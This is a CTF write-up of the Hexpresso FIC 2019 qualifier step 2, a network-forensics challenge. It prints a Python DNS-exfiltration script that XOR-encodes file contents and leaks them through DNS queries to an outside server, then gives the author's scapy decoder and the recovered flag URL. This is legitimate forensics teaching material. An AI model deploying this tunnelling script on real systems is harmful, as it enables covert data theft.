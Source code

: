 ```yaml
---
title: "Hexpresso FIC Quals 2019: Step 2"
slug: hexpresso-fic-2
date: 19/12/2019
---
```


The second step is some network forensics.

![Introduction](/assets/hexpresso-fic-quals/step2/intro.png)

We are given a PCAP file. It is not too big, we can clearly observe three
events (all the addresses are on `172.16.42.0`):

* `.99` requests `/index.html` to `.222` (does not matter for the challenge)
* `.99` requests `/dnstunnel.py` to `.222`
* `.99` performs dozens of DNS queries

Here is the Python script `dnstunnel.py`:

```python
#! /usr/bin/python3

import random
import os


# This is the "secret" data that is going to be sent
f = open('data.txt','rb')
data = f.read()
f.close()

print("[+] Sending %d bytes of data" % len(data))
print("[+] Cut in pieces ... ")


# encrypt encodes the chunck l in base16
# l is also XORED with a random key, that is added in front of the final
# payload chunk
def encrypt(l):
    key = random.randint(13, 254)
    output = hex(key)[2:].zfill(2)

    # This AES is a bit weird but who am I to judge
    for i in range(len(l)):
        aes = ord(l[i]) ^ key)
        output += hex(aes)[2:].zfill(2)

    # Key + encoded data
    return output


# udp_secure_tunneling actually performs the DNS query
# The command is as follows:
# host -t A <ENCODED_DATA>.local.tmux <DNS server>
# It is fully synchronous and there is a sleep so the ordering of the DNS
# queries is not very likely to be undefined.
def udp_secure_tunneling(my_secure_data):
    mycmd = "host -t A %s.local.tux 172.16.42.222" % my_secure_data
    os.system(mycmd)
    os.system("sleep 1")


# send_data sends a chunk of data (global variable), starting
# at position s
def send_data(s):
    global n
    n = n+1
    # Each DNS query exfiltrates between 4 and 11 bytes
    length = random.randint(4,11)

    # There is a redundancy mechanism, in case of packet lost
    # If we send more bytes we can recover if we loose some packets?
    redundancy = random.randint(2,16)
    chunk = data[s:s+length+redundancy].decode("utf-8")
    # Redundancy marks are added to the payload
    chunk = "%04d%s"%(s,chunk)
    print("%04d packet --> %s.local.tux" % (n,chunk))

    blob = encrypt(chunk)
    udp_secure_tunneling(blob)
    return s + length


# Keep track of what remains to be sent
cursor = 0

# As long as it remains some data, send data from cursor
while cursor < len(data):
    cursor = send_data(cursor)
```

Please, take a look at the comments on the script.

We can understand that some secret payload has been sent using the DNS
exfiltration technique. Its very simple: you just make a bunch of DNS
queries, embedding the data in the domain that is queried.

The only real constraint of this technique is that the data has to be pure
plaintext (as far as I know?) so you need some kind of encoding. The base64
is often chosen but here it is base16.

There is also a XOR operation... Each DNS query has its own key but really,
it is no big deal as the key is sent alongside the cipher.

We will talk a bit more about the redundancy mechanism later. For now, we
just need to know that we could expect some data to be duplicated and that
redundancy marks (`chunk = "%04d%s"%(s,chunk)`) are part of the payload.

We have tout bien compris so let's write a script that:

* Iterates over the DNS queries
* For each query, extracts its key
* Decodes its payload
* Performs the XOR operation
* Adds the result to a buffer

After a few copy/pastes here we go:

```python
from scapy.all import rdpcap, DNSQR, DNSRR


def extract(file_path):
    result = ''

    for p in rdpcap(file_path):
        if p.haslayer(DNSQR) and not p.haslayer(DNSRR):
            # It is a DNS query!
            # We remove the base domain
            qry = p[DNSQR].qname.decode().replace('.local.tux.', '')

            key = qry[0:2] # Extract the key
            rest = qry[2:] # What remains is the payload

            # Group the characters by two (base16)
            byTwo = [rest[i:i+2] for i in range(0, len(rest), 2)]
            # Base conversion, XOR and decode
            for c in byTwo:
                plain = int(c, 16) ^ int(key, 16)
                result += chr(plain)

    return result


with open('output.txt', 'w+') as f:
    f.write(extract('cb52ae4d15503c598f0bb42b8af1ce51.pcap'))
```

Here is the content of `output.txt`:

```
0000Congratulations!! Y0011ions!! You did it so f0020u did it so far!

Here is 0030o far!

Here is t0039ere is the link 0049 link in bas0059ase32 for0064 form:
NB2HI4DTHIX0071NB2HI4DTHIXS6Y3UMYXGQ0077DTHIXS6Y3UMYXGQZLY0081XS6Y3UMYXGQZLY00853UMYXGQZLY0092ZLYOBZG0097ZGK43TN4XGM40103N4XGM4RPGU3TSODDME2DO0112U3TSODDME2DOZDBMNSTKY0122DOZDBMNSTKYZVMU3G0127MNSTKYZVMU3GIMZVGI4T
MOJ01373GIMZVGI4T
MOJQM0141ZVGI4T
MOJQMM4DMMZTG42QU==0152MM4DMMZTG42QU===0159TG42QU===

 _    0163QU===

 _      0168

 _             0179        0183                 0189                   0196           0205            
|0213    
| |__   _0224  _____  ___ _0228___  ___ __ 0235_ __  _ __0243__ ___  ___ ___  _0253_ ___  ___0261__  
|0265
| '_ \ / _ \ \0273/ _ \ \/ / '_ \| '_0283 '_ \| '__/ 0288| '__/ _ \/ __/ __0298/ __/ __|/0303 __|/ _ \ 
| | | |  __/0310 \ 
| | | |  __/>  <| |0320|  __/>  <| |0328 <| |_) | | |  0333_) | | |  __/\__ \_0342 __/\__ \__ \ (_) |
|_| 0353 \ (_) |
|_| |_|\0362|_| |_|\___/_/\_\ ._0371__/_/\_\ .__/|_|  \___||__0382_/|_|  \___||___/0389\___||___/_0397_/___/\___/ 
      0401_/\___/ 
           0409
       0413             |0424  |_|          0431                    0435                    0443              


0447          


0453    


0459
```

It looks promising but is very hard to read because of the redundancy. Pieces
of text are repeated, and the redundancy marks (`0000`, `0030`, etc) are
mixed with the content.

We can partially read the text: *Here is the link in base32 form:*. So let's
extract the base32 chunk and put it on a single line:

```
NB2HI4DTHIX0071NB2HI4DTHIXS6Y3UMYXGQ0077DTHIXS6Y3UMYXGQZLY0081XS6Y3UMYXGQZLY00853UMYXGQZLY0092ZLYOBZG0097ZGK43TN4XGM40103N4XGM4RPGU3TSODDME2DO0112U3TSODDME2DOZDBMNSTKY0122DOZDBMNSTKYZVMU3G0127MNSTKYZVMU3GIMZVGI4TMOJ01373GIMZVGI4TMOJQM0141ZVGI4TMOJQMM4DMMZTG42QU==0152MM4DMMZTG42QU===0159TG42QU===0163QU===
```

Here is the Vim regex I used to clean up the string:

```
:%s/\(.\{-\}\)\d\{4\}\1/\1/
```

It matches on any piece of text similar to `ABCDEF0123ABCDEF` (piece of text
(base32 charset), redundancy indicator (4 digits), redundancy text (same as
the piece of text)) and replaces it by `ABCDEF` (the piece of text).

Repeatedly applying the regex produces the following string:

```
NB2HI4DTHIXS6Y3UMYXGQZLYOBZGK43TN4XGM4RPGU3TSODDME2DOZDBMNSTKYZVMU3GIMZVGI4TMOJQMM4DMMZTG42QU===
```

Which decodes to our flag:

```
https://ctf.hexpresso.fr/5798ca47dace5c5e6d3529690c863375
```

You can [click here](/posts/hexpresso-fic-3) for the next step.
